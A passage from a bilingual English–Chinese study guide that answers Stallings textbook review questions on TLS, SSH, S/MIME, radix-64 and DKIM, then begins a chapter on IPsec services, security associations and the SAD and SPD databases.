- Alert Protocol: conveys warnings and fatal errors to the peer.警报协议：向对方传达警告和致命错误。
The Heartbeat Protocol (a keep-alive) is defined in a separate RFC. HTTP and other applications run above the Record Protocol.心跳协议（一种保活机制）在一份单独的 RFC 中定义。HTTP 和其他应用都运行在记录协议之上。
思路：一层 Record，加上 Handshake、Change Cipher Spec、Alert 三个上层协议。
E3. (Review Question 17.3, Stallings; 22.6, Stallings & Brown) What is the difference between a TLS connection and a TLS session?E3.（复习题 17.3，Stallings；22.6，Stallings & Brown）TLS 连接和 TLS 会话有什么区别？
Answer
A connection is a transient transport-level, peer-to-peer relationship that provides a suitable type of service. Each connection is associated with exactly one session.连接是一种短暂的、传输层的点对点关系，提供合适的服务类型。每条连接只关联一个会话。
A session is an association between a client and a server, created by the Handshake Protocol. It defines a set of cryptographic parameters (such as the master secret and the cipher spec) that can be shared by many connections.会话是客户端与服务器之间由握手协议建立的一种关联。它定义了一组密码学参数（例如主密钥和密码规格），可以被多条连接共享。
Sessions exist to avoid the expensive negotiation of new security parameters for every connection: a new connection can reuse the parameters of an existing session. Between a pair of parties there may be many connections inside one session.会话的存在是为了避免为每条连接都重新协商昂贵的安全参数：新连接可以复用现有会话的参数。在一对通信方之间，一个会话内可以有多条连接。
思路：会话保存协商好的参数，连接是会话里临时的传输通道，一个会话可含多个连接。
E4. (Review Question 17.4, Stallings) List and briefly define the parameters that define a TLS session state.E4.（复习题 17.4，Stallings）列出并简要定义 TLS 会话状态的参数。
Answer
- Session identifier: an arbitrary byte sequence chosen by the server to identify an active or resumable session.会话标识符：由服务器选定的任意字节序列，用于标识一个活动或可恢复的会话。
- Peer certificate: the X.509v3 certificate of the peer (may be null).对端证书：对端的 X.509v3 证书（可以为空）。
- Compression method: the algorithm used to compress data before encryption.压缩方法：加密之前用于压缩数据的算法。
- Cipher spec: the bulk encryption algorithm (for example null or AES) and the hash algorithm used for the MAC, with attributes such as the hash size.密码规格：批量加密算法（例如 null 或 AES）以及用于 MAC 的散列算法，以及散列长度等属性。
- Master secret: a 48-byte secret shared by client and server, from which the keys are derived.主密钥：客户端与服务器共享的 48 字节秘密，由它推导出所有密钥。
- Is resumable: a flag saying whether the session can be used to start new connections.是否可恢复：一个标志，表示该会话能否用于建立新连接。
思路：会话状态 = 会话号、对方证书、压缩、密码规格、主密钥、可恢复标志。
E5. (Review Question 17.5, Stallings) List and briefly define the parameters that define a TLS session connection (the connection state).E5.（复习题 17.5，Stallings）列出并简要定义 TLS 会话连接（连接状态）的参数。
Answer
- Server and client random: byte sequences chosen by the server and the client for each connection.服务器和客户端随机数：服务器和客户端为每条连接各自选取的字节序列。
- Server write MAC secret: key for the MAC on data sent by the server.服务器写 MAC 秘密：服务器所发送数据的 MAC 密钥。
- Client write MAC secret: key for the MAC on data sent by the client.客户端写 MAC 秘密：客户端所发送数据的 MAC 密钥。
- Server write key: symmetric encryption key for data encrypted by the server and decrypted by the client.服务器写密钥：服务器加密数据、客户端解密时所用的对称加密密钥。
- Client write key: the same for data encrypted by the client.客户端写密钥：同理，用于客户端加密的数据。
- Initialization vectors: for a block cipher in CBC mode, one IV per key; it is first set by the Handshake Protocol and afterwards is the last ciphertext block of the previous record.初始向量：对于 CBC 模式的分组密码，每个密钥对应一个 IV。它首先由握手协议设定，之后则是前一条记录的最后一个密文分组。
- Sequence numbers: each side keeps separate counters for sent and received messages. They are set to zero when a change cipher spec message is sent or received and may not exceed \(2^{64}-1\).序号：每一方分别为发送和接收的消息维护计数器。它们在发送或接收密码规格变更消息时清零，且不得超过 \(2^{64}-1\)。
思路：连接状态 = 两个随机数、两对 MAC 与加密密钥、IV、序号。
E6. (Review Question 17.6, Stallings; 22.7, Stallings & Brown) What services are provided by the TLS (SSL) Record Protocol?E6.（复习题 17.6，Stallings；22.7，Stallings & Brown）TLS（SSL）记录协议提供哪些服务？
Answer
The Record Protocol provides two services to TLS connections.记录协议为 TLS 连接提供两项服务。
- Confidentiality: the payload is encrypted with a symmetric key defined by the Handshake Protocol.机密性：载荷用握手协议定义的对称密钥加密。
- Message integrity: a message authentication code (HMAC) is formed with a shared secret key, also defined by the Handshake Protocol. Because the MAC includes a sequence number, it also detects modified, inserted, deleted, replayed or reordered records.消息完整性：用握手协议定义的共享秘密密钥生成消息认证码（HMAC）。由于 MAC 包含序号，它还能发现被修改、插入、删除、重放或重排的记录。
思路：Record 协议提供保密性和消息完整性两项服务。
E7. (Review Question 17.7, Stallings) What steps are involved in the TLS Record Protocol transmission?E7.（复习题 17.7，Stallings）TLS 记录协议的传输包括哪些步骤？
Answer
- Fragment the application data into blocks of at most \(2^{14}\) bytes.分片：把应用数据切成不超过 \(2^{14}\) 字节的块。
- Optionally compress each block.可选地压缩每个块。
- Compute a MAC (HMAC) over the sequence number, content type, version, length and the compressed fragment, using the MAC write secret.用写 MAC 秘密对序号、内容类型、版本、长度以及压缩后的分片计算 MAC（HMAC）。
- Encrypt the compressed fragment plus MAC with the symmetric cipher (padding is added after the MAC for a block cipher).用对称密码加密压缩后的分片加上 MAC（对于分组密码，填充加在 MAC 之后）。
- Prepend a record header with the content type, major and minor version and the length, and send the record in a TCP segment.前置记录首部，其中包含内容类型、主版本号和次版本号以及长度，然后把记录放入一个 TCP 报文段发送。
The receiver reverses the steps: decrypt, verify the MAC, decompress, reassemble.接收方按相反的顺序处理：解密、验证 MAC、解压缩、重新组装。
思路：分片、压缩、加 MAC、加密、加头，接收方按相反顺序处理。
E8. (Review Question 17.8, Stallings; 22.8, Stallings & Brown) What is the purpose of HTTPS? Briefly discuss the different levels of awareness of a connection in HTTPS.E8.（复习题 17.8，Stallings；22.8，Stallings & Brown）HTTPS 的用途是什么？简要讨论 HTTPS 中连接的不同层次。
Answer
HTTPS is HTTP running over TLS. Its purpose is to protect Web traffic with encryption (URL, content, form data, cookies and headers are hidden from eavesdroppers), data integrity (modification is detected) and authentication of the site (protecting against man-in-the-middle attacks). The HTTP client also acts as the TLS client: it opens a TCP connection, runs the TLS handshake, then sends all HTTP data as TLS application data.HTTPS 就是运行在 TLS 之上的 HTTP。它的用途是：用加密保护 Web 流量（URL、内容、表单数据、Cookie 和首部对窃听者隐藏），用数据完整性保证篡改可被发现，并通过对网站的认证来防御中间人攻击。HTTP 客户端同时也是 TLS 客户端：它先打开 TCP 连接，再执行 TLS 握手，然后把所有 HTTP 数据作为 TLS 应用数据发送。
A connection exists at three levels:连接存在于三个层次。
- HTTP level: the client asks the next lower layer (TCP, or TLS) for a connection to the server.HTTP 层：客户端向下一层（TCP 或 TLS）请求与服务器的连接。
- TLS level: a session is established between the TLS client and server; it can support one or more connections.TLS 层：TLS 客户端与服务器之间建立一个会话；该会话可以支持一条或多条连接。
- TCP level: a TCP connection between the two TCP entities must exist before TLS can start.TCP 层：在 TLS 启动之前，两个 TCP 实体之间必须已经存在一条 TCP 连接。
思路：HTTPS = HTTP 加 TLS，三层（HTTP、TLS、TCP）各自都有“连接”。
E9. (Review Question 17.9, Stallings) Which protocol was replaced by SSH and why? Which version is currently in the process of being standardized?E9.（复习题 17.9，Stallings）哪个协议被 SSH 取代了？为什么？目前正在标准化的是哪个版本？
Answer
SSH (version 1) was designed to replace TELNET and other remote-logon schemes (such as rlogin), because these sent passwords and data in clear text and so provided no security. SSH also supports other client/server uses such as file transfer, e-mail and tunnelling. SSH2, which fixes a number of security flaws of the original SSH1, is the version being standardized: it is documented as a proposed standard in IETF RFCs 4250 through 4256.SSH（第 1 版）的设计目的是取代 TELNET 和其他远程登录方案（例如 rlogin），因为这些方案以明文发送口令和数据，没有任何安全性。SSH 还支持其他客户端/服务器用途，例如文件传输、电子邮件和隧道。SSH2 修正了原始 SSH1 的许多安全缺陷，是正在标准化的版本：它以建议标准的形式记录在 IETF RFC 4250 至 4256 中。
思路：SSH 取代明文的 TELNET；标准化的是修复了 SSH1 缺陷的 SSH2。
E10. (Review Question 17.10, Stallings) List and briefly define the SSH protocols.E10.（复习题 17.10，Stallings）列出并简要定义 SSH 协议。
Answer
SSH is organized as three protocols that run on top of TCP.SSH 由运行在 TCP 之上的三个协议组成。
- Transport Layer Protocol: authenticates the server (by its host key) and provides data confidentiality and integrity with forward secrecy; it may optionally compress data.传输层协议：通过主机密钥认证服务器，并提供具有前向保密的数据机密性和完整性；它可以选择对数据进行压缩。
- User Authentication Protocol: authenticates the user to the server (for example by password or public key).用户认证协议：向服务器认证用户（例如通过口令或公钥）。
- Connection Protocol: multiplexes several logical channels (login sessions, port forwarding, X11) over the single encrypted SSH connection.连接协议：在单个加密的 SSH 连接上复用多个逻辑通道（登录会话、端口转发、X11）。
思路：传输层认证服务器并加密，用户认证验证用户，连接协议复用多个通道。
E11. (Review Question 22.1, Stallings & Brown) List four functions supported by S/MIME.E11.（复习题 22.1，Stallings & Brown）列出 S/MIME 支持的四项功能。
Answer
S/MIME (Secure/Multipurpose Internet Mail Extension) adds security to the MIME e-mail format. MIME describes the body of a message (type, format, encoding); S/MIME defines additional MIME content types that provide four functions.S/MIME（安全/多用途因特网邮件扩展）为 MIME 电子邮件格式增加了安全性。MIME 描述消息体（类型、格式、编码）；S/MIME 则定义了额外的 MIME 内容类型，提供四项功能。
- Enveloped data: encrypted content of any type plus the content-encryption key encrypted for each recipient.数字信封数据：任何类型的加密内容，加上为每个接收者分别加密的内容加密密钥。
- Signed data: a digital signature (hash of the content encrypted with the signer's private key); content and signature are radix-64 encoded, so only S/MIME-capable recipients can read it.签名数据：数字签名（内容的散列值用签名者的私钥加密）；内容和签名都经过 radix-64 编码，因此只有具备 S/MIME 能力的接收者才能读取。
- Clear-signed data: the same signature, but only the signature is encoded, so recipients without S/MIME can still read the text (but cannot verify it).明文签名数据：签名相同，但只对签名部分编码，因此没有 S/MIME 的接收者仍能读取文本（但无法验证）。
- Signed and enveloped data: signed-only and encrypted-only entities may be nested, so signed data can be encrypted and encrypted data can be signed.签名并加密的数据：纯签名实体和纯加密实体可以嵌套，因此签名数据可以被加密，加密数据也可以被签名。
思路：加密封装、签名、明文签名、签名加加密嵌套。
E12. (Review Question 22.2, Stallings & Brown) What is radix-64 conversion?E12.（复习题 22.2，Stallings & Brown）什么是 radix-64 转换？
Answer
Radix-64 (also called base64) is a coding that maps arbitrary binary data to printable ASCII characters. The input is taken in groups of three octets (24 bits). Each group is split into four 6-bit values, and each value (0–63) is mapped to one character of a 64-character alphabet (A–Z, a–z, 0–9, + and /), so every three octets become four characters. If the input length is not a multiple of three, the output is padded with one or two "=" characters.Radix-64（也称为 base64）是一种把任意二进制数据映射为可打印 ASCII 字符的编码。输入每次取三个字节（24 位），拆分为四个 6 位的值，每个值（0–63）映射为 64 个字符字母表（A–Z、a–z、0–9、+ 和 /）中的一个字符，因此每三个字节变成四个字符。如果输入长度不是 3 的倍数，输出会用一个或两个 “=” 字符补齐。
Example: the octets "Man" (4D 61 6E) give the 6-bit values 19, 22, 5, 46, that is, the text TWFu; "Ma" gives TWE= and "M" gives TQ==. The output is about 33% longer than the input.例如，字节 “Man”（4D 61 6E）得到 6 位值 19、22、5、46，即文本 TWFu；“Ma” 得到 TWE=，“M” 得到 TQ==。输出比输入长约 33%。
思路：每 3 个字节变成 4 个可打印字符，每个字符承载 6 比特。
E13. (Review Question 22.3, Stallings & Brown) Why is radix-64 conversion useful for an e-mail application?E13.（复习题 22.3，Stallings & Brown）为什么 radix-64 转换对电子邮件应用有用？
Answer
S/MIME signatures and ciphertext are arbitrary binary strings. Internet e-mail systems were designed for printable ASCII text: some mail software interprets the content, looking for control characters such as line feeds, and may alter, strip or reformat bytes, and some transports accept only 7-bit text. Sending raw binary through such a system could therefore corrupt the signature or ciphertext. Radix-64 maps the binary data onto printable ASCII characters that survive any mail system unchanged; the receiver converts them back. The price is a 33% increase in size.S/MIME 的签名和密文都是任意的二进制串。因特网邮件系统是为可打印的 ASCII 文本设计的：一些邮件软件会解释内容，寻找换行等控制字符，并可能改动、删除或重新格式化字节；有些传输只接受 7 位文本。因此，直接发送原始二进制数据可能会破坏签名或密文。Radix-64 把二进制数据映射为可打印的 ASCII 字符，这些字符能原样通过任何邮件系统；接收方再把它们转换回来。代价是大小增加 33%。
思路：邮件系统只可靠地传输可打印字符，二进制数据需要先转成 ASCII。
E14. (Review Question 22.4, Stallings & Brown) What is DKIM?E14.（复习题 22.4，Stallings & Brown）什么是 DKIM？
Answer
DomainKeys Identified Mail (DKIM, RFC 6376) is a specification for cryptographically signing e-mail messages so that a signing domain claims responsibility for a message. The e-mail provider of the sender (the signer, usually the mail submission agent) signs the message body and selected headers with the private key of its domain (default: RSA with SHA-256). The recipient's side (the mail delivery agent) fetches the domain's public key from the DNS and verifies the signature. Mail that claims to come from a domain but was not signed by it fails verification and can be rejected.DomainKeys Identified Mail（DKIM，RFC 6376）是一种对电子邮件进行密码学签名的规范，使签名域对该邮件负责。发件人的邮件服务商（即签名者，通常是邮件提交代理）用其域的私钥对邮件正文和选定的首部签名（默认：RSA 加 SHA-256）。接收方（即邮件投递代理）从 DNS 中获取该域的公钥并验证签名。声称来自某域却未经该域签名的邮件会验证失败，并可能被拒收。
Unlike S/MIME, DKIM is transparent to users (it works in the mail servers, not the mail client), applies to all mail of a cooperating domain, and also covers the headers that state the origin.与 S/MIME 不同，DKIM 对用户是透明的（它在邮件服务器中工作，而不是在邮件客户端中），适用于合作域的全部邮件，并且还覆盖说明来源的首部。
思路：发送方域名用私钥签名，收方从 DNS 取公钥验证，对用户透明。
E15. (Problem 17.1, Stallings; 22.1, Stallings & Brown) In SSL and TLS, why is there a separate Change Cipher Spec Protocol rather than including a change_cipher_spec message in the Handshake Protocol?E15.（习题 17.1，Stallings；22.1，Stallings & Brown）在 SSL 和 TLS 中，为什么要有单独的密码规格变更协议，而不是把 change_cipher_spec 消息放在握手协议中？
Answer
The change_cipher_spec message is not a handshake negotiation message but a command to the Record Protocol: from the next record on, the pending (just negotiated) cipher spec and keys replace the current ones. It must therefore be recognised and acted on by the Record layer at an exact record boundary.change_cipher_spec 消息不是握手协商消息，而是发给记录协议的命令：从下一条记录开始，刚协商好的待定密码规格和密钥取代当前的密钥。因此，记录层必须在精确的记录边界上识别并执行它。
- As a separate protocol it has its own content type in the record header, so the Record layer can detect it immediately, in a record of its own, and switch states exactly after it. Handshake messages, in contrast, are handled by the handshake layer and several of them can be packed into one record or one message split across records, so they could not mark the exact point where encryption begins.作为一个独立协议，它在记录首部中有自己的内容类型，因此记录层可以在它自己的一条记录中立即识别它，并在其之后精确地切换状态。相比之下，握手消息由握手层处理，其中若干条可以打包进同一条记录，或者一条消息被拆分到多条记录中，因此它们无法标记加密开始的确切位置。
- It keeps the roles apart: the Handshake Protocol only negotiates and produces the parameters, the Change Cipher Spec message activates them, and the Finished message that follows is already protected by the new parameters and proves that both sides derived the same keys.这样职责分明：握手协议只负责协商并生成参数，密码规格变更消息负责激活这些参数，随后的 Finished 消息已经用新参数保护，并证明双方推导出了相同的密钥。
思路：它是给 Record 层的“切换”指令，不是协商内容，需要独立的内容类型和精确的位置。
E16. (Problem 17.3, Stallings; 22.2, Stallings & Brown) Consider the following threats to Web security and describe how each is countered by a particular feature of TLS: (a) brute-force cryptanalytic attack (exhaustive search of the key space); (b) known-plaintext dictionary attack (the attacker builds a dictionary of the encryptions of predictable plaintext such as the HTTP GET command under every key, and looks up intercepted ciphertext; especially effective against small keys, for example 40 bits); (c) replay attack (earlier handshake messages are replayed); (d) man-in-the-middle attack (an attacker interposes during key exchange, acting as client to the server and as server to the client); (e) password sniffing (passwords in HTTP or other application traffic are eavesdropped); (f) IP spoofing (forged IP addresses are used to make a host accept bogus data); (g) IP hijacking (an active, authenticated connection is disrupted and the attacker takes the place of one of the hosts); (h) SYN flooding (the attacker sends TCP SYN messages but never completes the connection, so half-open connections clog the TCP module).E16.（习题 17.3，Stallings；22.2，Stallings & Brown）考虑以下 Web 安全威胁，并描述 TLS 的某项特性如何应对每一种威胁：(a) 穷举密码分析攻击（对密钥空间进行穷举搜索）；(b) 已知明文字典攻击（攻击者针对每个密钥，为可预测明文（如 HTTP GET 命令）的加密结果建立字典，然后在截获的密文中查找；对小密钥（例如 40 位）尤其有效）；(c) 重放攻击（重放早期的握手消息）；(d) 中间人攻击（攻击者在密钥交换期间插入，对服务器扮演客户端，对客户端扮演服务器）；(e) 口令嗅探（HTTP 或其他应用流量中的口令被窃听）；(f) IP 欺骗（伪造 IP 地址，使主机接受虚假数据）；(g) IP 劫持（已认证的活动连接被破坏，攻击者取代其中一台主机）；(h) SYN 洪泛（攻击者发送 TCP SYN 消息但从不完成连接，使半开连接占满 TCP 模块）。
Answer
- (a) Brute force. TLS uses long symmetric keys (for example 128-bit AES), so the key space is too large to search. Weak 40-bit export suites are the vulnerable case and are no longer accepted.(a) 穷举攻击。 TLS 使用较长的对称密钥（例如 128 位 AES），因此密钥空间太大，无法穷举。脆弱的情况是 40 位的出口套件，但它们已不再被接受。
- (b) Known-plaintext dictionary. A dictionary needs one fixed key. TLS uses a large key space, and the keys are fresh for each session because they are derived from the master secret and the random values of the two hellos; with a chained or explicit IV, equal plaintext also gives different ciphertext. A precomputed dictionary is therefore useless.(b) 已知明文字典攻击。 字典需要一个固定的密钥。TLS 的密钥空间很大，而且每个会话的密钥都是新的，因为它们由主密钥和两个 Hello 消息中的随机数推导而来；使用链式或显式 IV 时，相同的明文也会得到不同的密文。因此，预先算好的字典毫无用处。
- (c) Replay. The hello messages carry fresh random nonces that enter the key derivation and the signed hash, so replayed old handshake messages give different keys and the Finished check fails. In the record layer the sequence number inside the MAC makes a replayed record invalid.(c) 重放。 Hello 消息携带新鲜的随机 nonce，它们参与密钥推导和签名散列，因此重放的旧握手消息会得到不同的密钥，Finished 校验失败。在记录层，MAC 中的序号使重放的记录无效。
- (d) Man in the middle. The server (optionally the client) is authenticated with an X.509 certificate, and the key-exchange values are signed. The Finished messages are MACs over the whole handshake, so any tampering is detected. An attacker without the server's private key cannot complete the exchange.(d) 中间人。 服务器（以及可选的客户端）通过 X.509 证书认证，并且密钥交换的值都经过签名。Finished 消息是对整个握手过程的 MAC，因此任何篡改都会被发现。没有服务器私钥的攻击者无法完成交换。
- (e) Password sniffing. All application data, including passwords, is encrypted by the Record Protocol.(e) 口令嗅探。 所有应用数据（包括口令）都由记录协议加密。
- (f) IP spoofing. TLS does not authenticate IP addresses, but a spoofer does not hold the session keys. Its data carries no valid MAC and is rejected (bad_record_mac alert).(f) IP 欺骗。 TLS 不认证 IP 地址，但欺骗者不持有会话密钥。他的数据没有有效的 MAC，会被拒绝（bad_record_mac 警报）。
- (g) IP hijacking. After the handshake every record is MACed with a secret key and a sequence number, so injected or modified records are rejected. The attacker can disrupt the connection (denial of service) but cannot take it over.(g) IP 劫持。 握手之后，每条记录都用秘密密钥和序号计算 MAC，因此注入或修改的记录会被拒绝。攻击者可以破坏连接（拒绝服务），但无法接管它。
- (h) SYN flooding. TLS does not counter it: the attack happens at TCP, below TLS. It must be handled at the TCP level (for example SYN cookies).(h) SYN 洪泛。 TLS 无法防御它：攻击发生在 TCP 层，位于 TLS 之下。它必须在 TCP 层处理（例如 SYN cookie）。
TLS mainly protects against attacks on the content and on the handshake; attacks on the underlying TCP/IP delivery can only be turned into denial of service, not into data compromise.TLS 主要防御针对内容和握手的攻击；针对底层 TCP/IP 传输的攻击只能造成拒绝服务，而不会导致数据泄露。
思路：逐条找对应机制：长密钥、随机数、证书与 Finished、加密、MAC 与序号；SYN 洪泛 TLS 管不了。
E17. (Problem 17.4, Stallings; 22.3, Stallings & Brown) Is it possible in TLS (SSL) for the receiver to reorder record blocks that arrive out of order? If so, explain how; if not, why not?E17.（习题 17.4，Stallings；22.3，Stallings & Brown）在 TLS（SSL）中，接收方是否可能对乱序到达的记录块进行重排？如果可以，请解释如何做；如果不可以，请说明原因。
Answer
No. The TLS record header carries only the content type, the version and the length; there is no sequence number in it. Each side keeps an implicit 64-bit sequence number per direction, which counts the records sent or received, and this number is included in the MAC computation. If a record arrives out of order, the receiver uses the wrong sequence number, the MAC check fails and the connection is terminated with a fatal bad_record_mac alert. With a block cipher in CBC mode (IV is the last ciphertext block of the previous record) or a stream cipher, decryption also depends on the order of records.不能。TLS 记录首部只包含内容类型、版本和长度，其中没有序号。每一方在每个方向上都维护一个隐含的 64 位序号，它计数已发送或已接收的记录，并且这个序号参与 MAC 计算。如果记录乱序到达，接收方使用了错误的序号，MAC 校验失败，连接会以致命的 bad_record_mac 警报终止。对于 CBC 模式的分组密码（IV 为前一条记录的最后一个密文分组）或流密码，解密也依赖于记录的顺序。
TLS does not need reordering, because it runs over TCP, which already delivers a reliable, in-order byte stream. (A variant for unreliable datagram transport has to carry an explicit sequence number in each record.)TLS 不需要重排，因为它运行在 TCP 之上，而 TCP 已经提供了可靠、有序的字节流。（对于在不可靠数据报传输上运行的变体，每条记录必须携带显式的序号。）
思路：序号不在记录里而是隐含在 MAC 中，乱序即验证失败；有序交付靠下层 TCP。
Chapter 20IP Security (IPsec) and VPNsIP 安全（IPsec）与 VPNReading: Stallings (Crypto) Ch. 20; Stallings & Brown 22.5
IPsec overview and services ★★IPsec 概述与服务
Goal. Say what IPsec is, name its six services and its three parts, and give the benefits of putting it in a firewall or router.目标。说明什么是 IPsec，列出它的六项服务及三个组成部分，并说明把它放在防火墙或路由器中的好处。
Step 1: what IPsec is for第 1 步：IPsec 的用途
In words: IPsec = security built into the IP layer, so that every application above it is protected without being changed.用文字表述：IPsec = 内建于 IP 层的安全机制，使其上的每个应用无需修改即可受到保护。
IP security (IPsec)（IP 安全协议）works at the IP layer of IPv4 and IPv6. Mechanisms such as S/MIME, Kerberos and SSL/TLS (Chapter 19) belong to one application each. IPsec sits below TCP and UDP, so one mechanism protects every application, including those that know nothing about security. Example: a company's old accounting program sends plain text. If the two sites are joined by IPsec, the program is protected without any change.IP 安全（IPsec）在 IPv4 和 IPv6 的 IP 层工作。S/MIME、Kerberos 和 SSL/TLS（第 19 章）等机制各自只服务于一个应用。IPsec 位于 TCP 和 UDP 之下，因此一种机制即可保护每一个应用，包括那些完全不了解安全的应用。例：某公司的旧会计程序以明文发送数据。如果两个站点之间用 IPsec 相连，该程序无需任何修改即可受到保护。
Its three functional areas are authentication, confidentiality and key management.它的三个功能领域是认证、机密性和密钥管理。
Uses.用途。
- Secure branch-office links over the Internet (a VPN).通过因特网安全连接分支机构（VPN）。
- Secure remote access over the Internet.通过因特网安全地远程接入。
- Extranet and intranet connections with partners.与合作伙伴之间的外联网和内联网连接。
- E-commerce protection.保护电子商务。
- Authentic routing messages, for example OSPF updates.真实可信的路由消息，例如 OSPF 更新。
Benefits in a firewall or router.防火墙或路由器中的好处。
- It protects all traffic that crosses the perimeter, and traffic inside bears no overhead.它保护所有穿越边界的流量，而且边界内的流量没有额外开销。
- It is resistant to bypass if all outside traffic must use IP and the firewall is the only way in.如果所有外部流量都必须使用 IP，且防火墙是唯一的入口，则它能抵抗绕过。
- It is below TCP and UDP, so applications and servers are unchanged.它位于 TCP 和 UDP 之下，因此应用和服务器都无需改动。
- It is transparent to users: no training and no per-user keys to issue or revoke.对用户透明：无需培训，也无需为每个用户颁发或撤销密钥。
Step 2: services and documents第 2 步：服务与文档
IPsec offers six services:IPsec 提供六项服务：
- access control;访问控制；
- connectionless integrity;无连接完整性；
- data origin authentication;数据源认证；
- rejection of replayed packets (a form of partial sequence integrity);拒绝重放的数据包（部分序列完整性的一种形式）；
- confidentiality;机密性；
- limited traffic-flow confidentiality.有限的流量机密性。
Two protocols provide them. The Authentication Header (AH)（认证头）gives authentication only. Encapsulating Security Payload (ESP)（封装安全载荷）gives encryption, or encryption combined with authentication. Because ESP can authenticate too, AH is deprecated in IPsecv3 and kept only for compatibility. IKE creates the keys and SAs (Section 20.6).两种协议提供这些服务。认证首部（AH）只提供认证。封装安全载荷（ESP）提供加密，或加密加认证。由于 ESP 也能提供认证，AH 在 IPsecv3 中已被弃用，仅为兼容而保留。IKE 负责创建密钥和 SA（见第 20.6 节）。
| Document group文档组 | Content内容 | Specification规范 |
|---|---|---|
| Architecture架构 | concepts, requirements, mechanisms概念、要求、机制 | RFC 4301 |
| AH | authentication header认证首部 | RFC 4302 |
| ESP | encryption header and trailer, optional authentication加密首部与尾部，可选认证 | RFC 4303 |
| IKE | key management密钥管理 | RFC 7296 (IKEv2)RFC 7296（IKEv2） |
Practice练习
Q1. (List) Give four benefits of implementing IPsec in a firewall or router rather than in each application.Q1.（列举）给出在防火墙或路由器中实现 IPsec 而非在每个应用中实现的四项优势。
Answer
(i) It protects all traffic crossing the perimeter, while traffic inside bears no overhead. (ii) It cannot be bypassed if all outside traffic must pass the firewall. (iii) It lies below TCP/UDP, so applications and servers are unchanged and even security-ignorant applications are protected. (iv) It is transparent to users: no training and no per-user keys to issue or revoke.（i）它保护穿越边界的全部流量，而内部流量不产生额外开销。（ii）若所有外部流量都必须经过防火墙，则它无法被绕过。（iii）它位于 TCP/UDP 之下，因此应用程序和服务器无需改动，甚至不具备安全意识的应用也能受到保护。（iv）对用户透明：无需培训，也无需发放或撤销每用户密钥。
Q2. (Match) Name the IPsecv3 component for each need: (a) hide payloads from eavesdroppers; (b) create SAs automatically; (c) authentication only, in older systems; (d) detect replayed packets.Q2.（配对）为每项需求指出对应的 IPsecv3 组件：（a）对窃听者隐藏载荷；（b）自动创建 SA；（c）旧系统中仅提供认证的组件；（d）检测重放的数据包。
Answer
(a) ESP (encryption). (b) IKE (IKEv2). (c) AH, now deprecated because ESP with its authentication option gives the same service. (d) The sequence number with the anti-replay window, available in ESP and AH.（a）ESP（加密）。（b）IKE（IKEv2）。（c）AH，现已弃用，因为带认证选项的 ESP 可提供相同的服务。（d）序号与抗重放窗口，在 ESP 和 AH 中均可用。
Security associations, SAD and SPD ★★★安全关联、SAD 与 SPD
Goal. Define a security association, say which three values identify it, tell the SPD from the SAD, and trace an outbound and an inbound packet with concrete addresses.目标。定义安全关联，说明标识它的三个值，区分 SPD 与 SAD，并用具体地址追踪一个出站和一个入站数据包。
Step 1: the security association第 1 步：安全关联
In words: an SA = a one-way agreement between a sender and a receiver about how to protect their packets.用文字表述：SA = 发送方与接收方之间关于如何保护其数据包的单向约定。
A security association (SA)（安全关联）is a one-way logical connection from a sender to a receiver that gives security services to the traffic it carries. Two-way exchange needs two SAs, one for each direction. One SA uses one protocol, AH or ESP, never both. Example: H1 and H2 talk with ESP. H1 to H2 uses SA 1 and H2 to H1 uses SA 2.安全关联（SA）是从发送方到接收方的单向逻辑连接，为其所承载的流量提供安全服务。双向交换需要两个 SA，每个方向一个。一个 SA 只使用一种协议，即 AH 或 ESP，二者不会同时使用。例：H1 与 H2 使用 ESP 通信。H1 到 H2 使用 SA 1，H2 到 H1 使用 SA 2。
An SA is identified by three parameters:一个 SA 由三个参数标识：
- Security Parameters Index (SPI)（安全参数索引）: a 32-bit number that the receiving end chooses. It has only local meaning. It is carried in the AH or ESP header so that the receiver can select the SA.安全参数索引（SPI）：一个 32 位数字，由接收端选定。它只具有本地意义。它携带在 AH 或 ESP 首部中，使接收方能够选中相应的 SA。
- IP destination address: the endpoint of the SA, an end system or a gateway such as a firewall or router.IP 目的地址：SA 的端点，可以是终端系统，也可以是防火墙或路由器等网关。
- Security protocol identifier: AH (IP protocol 51) or ESP (50), taken from the outer IP header.安全协议标识符：AH（IP 协议号 51）或 ESP（50），取自外层 IP 首部。
So an incoming packet finds its SA from its destination address, its protocol and the SPI in its AH or ESP header.因此，入站数据包根据其目的地址、协议以及 AH 或 ESP 首部中的 SPI 找到对应的 SA。

Step 2: the two databases第 2 步：两个数据库
In words: the SPD says whether a packet is protected, and the SAD says how.用文字表述：SPD 决定一个数据包是否受保护，SAD 决定如何保护。
The Security Association Database (SAD)（安全关联数据库）holds the parameters of every live SA. One entry is one SA. These are its parameters:安全关联数据库（SAD）保存每个有效 SA 的参数。一条表项对应一个 SA。其参数如下：
| Parameter参数 | Use用途 |
|---|---|
| SPI | builds the AH/ESP header of outbound packets; maps inbound packets to the SA为出站数据包构造 AH/ESP 首部；将入站数据包映射到对应的 SA |
| Sequence number counter序号计数器 | generates the 32-bit Sequence Number field生成 32 位的 Sequence Number 字段 |
| Sequence counter overflow序号计数器溢出 | flag: audit the overflow and stop sending on this SA标志：审计溢出事件，并停止在该 SA 上发送 |
| Anti-replay window抗重放窗口 | decides whether an inbound packet is a replay判断入站数据包是否为重放 |
| AH / ESP informationAH / ESP 信息 | algorithms, keys, IVs, key lifetimes算法、密钥、IV、密钥生存期 |
| Lifetime生存期 | time or byte count after which the SA is replaced (new SPI) or ended达到规定的时间或字节数后，SA 被替换（使用新 SPI）或终止 |
| Mode模式 | tunnel, transport or wildcard隧道、传输或通配 |
| Path MTU路径 MTU | observed path MTU and aging variables观测到的路径 MTU 及老化变量 |
The Security Policy Database (SPD)（安全策略数据库）relates traffic to SAs. An entry is defined by selectors（选择符）:安全策略数据库（SPD）把流量与 SA 联系起来。表项由选择符定义：
- remote and local IP address (single, list, range or wildcard);远端和本端 IP 地址（单个地址、列表、范围或通配符）；
- next-layer protocol;下一层协议；
- local and remote ports;本端和远端端口；
- optionally the user name.可选地包括用户名。
The action of an entry is one of three:表项的动作有三种之一：
- DISCARD: drop the packet;DISCARD：丢弃数据包；
- BYPASS: forward it with no IPsec;BYPASS：不经 IPsec 直接转发；
- PROTECT: use IPsec, through the SA that the entry points to.PROTECT：使用 IPsec，通过表项所指向的 SA。
Entries are tried in order and the first match applies (the same rule as in a firewall, Section 21.2).表项按顺序尝试，第一个匹配的表项生效（与防火墙中的规则相同，见第 21.2 节）。
